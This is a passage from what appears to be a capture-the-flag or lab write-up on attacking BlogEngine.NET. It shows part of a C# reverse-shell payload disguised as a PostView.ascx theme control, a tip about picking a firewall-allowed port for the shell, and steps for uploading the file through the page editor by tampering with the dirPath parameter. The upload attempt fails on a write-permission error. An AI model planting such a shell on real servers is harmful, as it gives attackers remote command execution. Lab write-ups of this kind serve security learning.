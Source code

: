 ```
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardInput = true;
        p.StartInfo.RedirectStandardError = true;
        p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
        p.Start();
        p.BeginOutputReadLine();

        while(true) {
          strInput.Append(rdr.ReadLine());
          p.StandardInput.WriteLine(strInput);
          strInput.Remove(0, strInput.Length);
        }
      }
    }
      }
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
     StringBuilder strOutput = new StringBuilder();

         if (!String.IsNullOrEmpty(outLine.Data)) {
           try {
                  strOutput.Append(outLine.Data);
                      streamWriter.WriteLine(strOutput);
                      streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```
{: file="PostView.ascx"}

> Do not forget to use a port excluded by firewall for reverse shell payload.
{: .prompt-warning }

On the editor for pages, we get access to the file manager, where we can upload files.

![BlogEngine.NET Page Editor File Upload](web_blog_page_edit_file_upload.webp){: width="950" height="550" }

Intercepting the request to upload our malicious `PostView.ascx` file.

Upon modying the `dirPath` variable and sending the request, we hit our next roadblock.

![BlogEngine.NET PostView.ascx Upload Fail](web_blog_postview_upload_fail.webp){: width="950" height="300" }

It seems we are not able to write to the `/Custom/Themes/` directory.
